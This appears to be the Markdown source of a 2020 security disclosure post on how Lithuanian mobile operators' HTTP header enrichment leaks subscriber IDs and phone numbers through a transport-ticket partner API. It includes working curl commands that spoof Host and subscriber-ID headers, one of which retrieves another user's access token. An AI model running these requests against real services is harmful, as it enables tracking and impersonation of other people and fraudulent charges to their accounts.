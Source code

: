 ```yaml
---
author:     Anonymous (Discovery) & Jaroslav Lobačevski (The article)
profileimage: anonymous.jpg
layout:     post
title:      "Privacy leaks in mobile internet era"
date:       2020-02-27 12:00:00
categories: HackAndTell MobileInternet
cover:      
permalink:  /en/blog/mobile-data-leak
---
```

> tl;dr: Ignorance of security issues by mobile operator partners leaks your phone number to malicious websites. Misconfigurations of mobile operators allow tracking you worldwide.  
Try it yourself - [Proof of Concept](/mobile-data-leak#proof-of-concept).

It all starts from curiosity... Have you ever seen a mobile app asking you to turn off WIFI and switch to mobile internet in order to use it?  
There are at least few of them in Lithuania that offer login-less service if you are connected to the mobile internet:

* [m.Ticket](https://play.google.com/store/apps/details?id=lt.sisp.itero.ticket.client&hl=en) - 
An app that allows you to buy public bus tickets using your phone.
* [m.Parking](https://play.google.com/store/apps/details?id=lt.sisp.itero.parking.client&hl=en) - 
An app for paying for city parking using your phone. The parking fee is added to your phone bill.
* [Mobile wallet MoQ](https://play.google.com/store/apps/details?id=lt.momo.app&hl=en) - 
An app for online payments, paying in-store and transferring money.

### How does it work?

It may sound crazy, but the mobile operator injects your identity into the outgoing HTTP request. Officially it is called HTTP Header Enrichment. When a third-party web server receives your request it already contains what is needed to identify the mobile user in a special HTTP header.

Let's check if that is true. First of all we need a server that would reflect back all HTTP headers it received from your browser. It is easy to write one by your own, but since we are lazy we'll use an already [existing one](http://postman-echo.com).

Connect a computer to your mobile device hotspot. Start a shell (command line) and run [curl](https://curl.haxx.se/) with the following arguments:
```
curl http://postman-echo.com/get
```
It returns the following response if you are not Tele2 user (showing just the important part):
```json
"headers": {
  "x-forwarded-proto": "https",
  "host": "postman-echo.com",
  "accept": "*/*",
  "user-agent": "curl/7.55.1",
  "x-forwarded-port": "80"
}
```
Nothing is suspicious here. This is because if configured correctly mobile operators inject headers only in a web request to white-listed partners. But not in Tele2 Lithuania case! It injects `"x-tele2-subid: 10.■■■.■■■.■■■` to **any unencrypted HTTP request**!

You may not see where the issue is... Yet it provides a [super cookie](https://en.wikipedia.org/wiki/HTTP_cookie#Other_uses) for any web site in the world. No matter if you switch the browser, clean cookies, use incognito mode - it uniquely identifies you as the same user. While you may share the same header with other Tele2 users nearby (something to be proved) it still gives a lot of information for a web sites to track you.

Let's switch our mobile provider and spoof the requested web site:
```
curl http://postman-echo.com/get --header "Host: mtis2.m-transportas.lt"
```
If correctly configured on mobile provider side the headers should not be injected because IP address of the request (the receiver is postman-echo.com) and the host name (mtis2.m-transportas.lt) doesn't match. However the following headers are injected in Bite case:
```
"bite-account-country": "LT",
"bite-account-id": "152■■■■■",
"bite-account-language": "LT",
"bite-account-type": "PREPAID",
"x-forwarded-server": "wap.bite.lt",
```
In Telia case:
```
"x-et-user-identity": "S9zdh■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■KUn3M"
```
### Things get worse. Partners come into play.
The host name we used above belongs to one of the white-listed partners. The company has created a web service that returns back a phone number among other things when a request from a mobile internet user is received. Let's try it:
```
curl --request POST http://mtis2.m-transportas.lt/api/token "Content-Type: application/x-www-form-urlencoded" -d "client_id=mticket&CountryCode=310&grant_type=mobileProvider"
```
The response:
```
{
  "userName": "3706■■■■■■■",
  "userType": 3,
  "client_id": "mticket",
  "access_token": "ey■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■Ck",
  "expires_in": 900,
  "refresh_token": "9c■■■■■■■■■■■■■■■■■■■■■■8d",
  "refresh_token_expires_in": 604800,
  "ticketInspectorGroupId": 0,
  "ticketInspectorLeader": false,
  "client_owner_code": null,
  "notifications": [
  ]
}
```
The service is public and the first line leaks your phone number. How could it be exploited?  
A malicious web page may run a javascript that calls mtis2.m-transportas.lt on your behalf. But if your provider is Tele2 it is even worse: `x-tele2-subid` gets injected into all unencrypted web site requests. So a malicious site may call mtis2.m-transportas.lt with the leaked `x-tele2-subid` and retrieve the phone number on the server side. This way it is impossible to detect the abuse from the client!
### Proof of concept:
Works with any Lithuanian mobile provider (*Update 2020-03-04: Tele2 is working on the fix and has disabled phone number resolution service for mtis2.m-transportas.lt*). Turn off WIFI and click on the link in your mobile device.
[http://www.devsecurity.eu/mobile-data-leak/](http://www.devsecurity.eu/mobile-data-leak/)

![Screenshot](mobile-data-leak-poc.png)

### Does the injected header prove anything?
So these white-listed partners make security sensitive decisions based on a presence of a header. Let's try spoofing the identity. This time switch to WIFI and run the following command:
```
curl --request POST http://mtis2.m-transportas.lt/api/token "Content-Type: application/x-www-form-urlencoded" -d "client_id=mticket&CountryCode=310&grant_type=mobileProvider" --header "x-tele2-subid: {your id from previous runs incremented by one}"
```
You will receive the token id for a user with completely different phone number! The service got fooled even though we connected not from a mobile network. While possibly there is no threat in someone spoofing your identity to buy you tickets, you wouldn't like to get a bill in the end of a month for a parking or mobile payments (up to 50 Eur?) you didn't do. The presence of the special headers cannot be used to prove your identity.

### Conclusions
The HTTP Header Enrichment is an ancient technique from the dark ages of internet when most of the traffic was unencrypted (related risks were even published in [2010 by Collin Mulliner](http://www.mulliner.org/security/feed/random_tales_mobile_hacker.pdf)). It should be abandoned as insecure and violating users' privacy. Meanwhile you have the options:
* Do not use mobile internet.
* If using mobile internet from a laptop browser, install HTTPS Everywhere extension.
* Always use VPN.
